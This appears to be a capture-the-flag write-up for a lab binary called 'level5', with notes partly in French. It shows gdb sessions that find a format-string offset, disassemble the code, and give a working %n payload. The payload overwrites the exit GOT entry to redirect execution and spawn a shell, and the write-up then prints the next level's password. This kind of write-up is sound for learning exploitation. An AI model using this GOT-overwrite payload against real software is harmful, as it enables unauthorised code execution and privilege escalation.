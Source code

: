 scp -P 4242 level5@192.168.56.103:/home/user/level5/level5 /home/zouz/Desktop/level5

// TODO preciser le context 

```
(gdb) r <<< $(python -c "print 'A' * 20 + '%x ' * 20")
Starting program: /home/user/level5/level5 <<< $(python -c "print 'A' * 20 + '%x ' * 20")
AAAAAAAAAAAAAAAAAAAA200 b7fd1ac0 b7ff37d0 41414141 41414141 41414141 41414141 41414141 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520
[Inferior 1 (process 3468) exited with code 01]
```
offset 4

```
(gdb) r <<< $(python -c "print '\xff\x84\x04\x08' + '%4\$x'")
Starting program: /home/user/level5/level5 <<< $(python -c "print '\xff\x84\x04\x08' + '%4\$x'")
�80484ff
[Inferior 1 (process 3491) exited with code 01]
```
on arrive sur le exit

```
(gdb) x o
0x80484a4 <o>:	0x83e58955
(gdb) disass n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   %ebp
   0x080484c3 <+1>:	mov    %esp,%ebp
   0x080484c5 <+3>:	sub    $0x218,%esp
   0x080484cb <+9>:	mov    0x8049848,%eax
   0x080484d0 <+14>:	mov    %eax,0x8(%esp)
   0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
   0x080484dc <+26>:	lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:	mov    %eax,(%esp)
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) disass 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    *0x8049838
   0x080483d6 <+6>:	push   $0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:	0x080483d6
```

```
(gdb)  b *0x080484f3
Breakpoint 1 at 0x80484f3
(gdb) b *0x080484ff
Breakpoint 2 at 0x80484ff
(gdb) r
Starting program: /home/user/level5/level5 
sdsvsdvsdv

Breakpoint 1, 0x080484f3 in n ()
(gdb) x o
0x80484a4 <o>:	0x83e58955
(gdb) set {int}0x8049838=0x80484a4
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:	0x080484a4
(gdb) c
Continuing.
sdsvsdvsdv

Breakpoint 2, 0x080484ff in n ()
(gdb) c
Continuing.
$ whoami
level5
```

we need to execute an exploit that will play with specifiers to reach the value of the address of o().

"%4$x" allows us to reference directly the 4th pf printf as we have seen that our injected string starts with tarameter ohe 4th value on the stack.

we still have the specifier %n that can be use to write the number of printed characters to an address on the stack.

0x80484a4 => 134513828

we'll use printf to pad a format string of that size.
but use 

0x8049838 is the address of exit + the number of bits we want to overwrite it with in int (d)

```
(gdb) r <<< $(python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"')
...
Breakpoint 2, 0x080484ff in n ()
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:	0x080484a4

we changed the address !
if we try outside gdb:

```
(python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' && cat) | ./level5
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
